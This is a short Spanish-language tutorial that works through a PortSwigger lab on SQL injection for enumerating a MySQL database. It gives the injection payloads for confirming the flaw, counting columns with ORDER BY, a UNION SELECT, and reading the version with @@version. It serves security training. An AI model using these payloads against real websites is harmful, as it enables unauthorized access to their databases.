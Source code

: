 
---
# Guía práctica: SQL Injection para enumeración de MySQL


---

## Laboratorio Portswigger

Para ilustrar con ejemplos realistas vamos a seguir el laboratorio gratuito de [Portswigger](https://portswigger.net/web-security/all-labs)

Todas las pruebas se realizaron en la URL:

```url
https://web-security-academy.net/filter?category=Gifts
```

---

## Confirmación de la vulnerabilidad

**Acción:**


Comprobamos que el parámetro `Gifts'` es vulnerabl, inyectamos `ORDER BY 2-- -` para saber número de columnas e inyectamos con  `' UNION SELECT 1, 2-- -`.

```sql
'
```

```sql
'ORDER BY 2-- -
```

```sql
' UNION SELECT 1,2-- -
```

**Explicación:**

Si la inyección tiene éxito, la página mostrará los valores `1` y `2`  en la tabla. Esto confirma que:

- La aplicación concatena directamente el valor en una consulta SQL.
    
- El número de columnas es 2.
    
- Podemos continuar con otras inyecciones más complejas.
    

---

## Obtener versión de MySQL

```sql
' UNION SELECT 1, @@version-- -
```

